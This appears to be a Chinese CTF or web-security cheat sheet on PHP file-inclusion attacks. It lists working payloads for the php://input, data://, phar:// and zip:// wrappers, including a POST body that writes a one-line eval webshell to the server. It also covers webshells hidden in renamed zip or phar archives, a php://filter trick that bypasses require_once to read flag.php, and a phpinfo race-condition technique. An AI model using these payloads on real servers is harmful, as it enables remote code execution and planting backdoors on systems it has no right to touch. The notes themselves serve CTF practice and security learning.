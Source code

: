 **php://input**
碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据
`?file=php://input`
POST：`<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>`
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行

**data://text/plain**
`?file=data:text/plain,<?php phpinfo()?>`
`?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`

**phar://伪协议**
用法：`?file=phar://压缩包/内部文件 phar://xxx.png/shell.php `
注意： PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。 步骤： 写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式
可以利用压缩过滤器触发phar：compress.zlib://phar:///var/www/html/upload/xxxx.gif

[初探phar://](https://xz.aliyun.com/t/2715)
[Phar的一些利用姿势](https://xz.aliyun.com/t/3692)
[利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

**zip://伪协议**
用法：`?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php`
条件： PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以 #在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。

**当compress.zlib加在任何其他协议之前，仍然会保持其他协议的功能**
>1. data协议的格式
data协议的格式为`data: [ mediatype ] [ ";charset" ] [ ";base64" ] , data`。其中charset，base64可选;data可用url编码。然而一个在php中，一个合法的data协议只需要满足`data:xxx/xxx;test=test;%23`就行。
>2. data协议的base64编码
由于filter_var很敏感，遇到一些空格报错，所以可以利用data协议的base64绕过。
`compress.zlib://data:@127.0.0.1/?;base64,(base64编码后的payload)`

[php 伪协议](https://www.cnblogs.com/2019gdiceboy/p/11777299.html)
[PHP伪协议总结](https://segmentfault.com/a/1190000018991087)

大佬文章：
[Web安全实战系列：文件包含漏洞](https://www.freebuf.com/articles/web/182280.html)
[bypass-RFI限制的一些思路](https://www.redteaming.top/2019/05/15/bypass-RFI%E9%99%90%E5%88%B6%E7%9A%84%E4%B8%80%E4%BA%9B%E6%80%9D%E8%B7%AF/)

#### 文件包含
可以fuzz下：[文件读取漏洞路径收集](https://blog.csdn.net/qq_33020901/article/details/78810035)

在php中，`require_once`在调用时php会检查该文件是否已经被包含过，如果是则不会再次包含
```php
<?php
error_reporting(E_ALL);
require_once('flag.php');
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    require_once($content);
}
```
绕过技巧：
```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```
##### phpinfo与条件竞争
[LFI WITH PHPINFO() ASSISTANCE](https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf)
我们对任意一个PHP文件发送一个上传的数据包时，不管这个PHP服务后端是否有处理`$_FILES`的逻辑，PHP都会将用户上传的数据先保存到一个临时文件中，这个文件一般位于系统临时目录，文件名是php开头，后面跟6个随机字符；在整个PHP文件执行完毕后，这些上传的临时文件就会被清理掉
phpinfo页面中会输出这次请求的所有信息，包括`$_FILES`变量的值，其中包含完整文件名
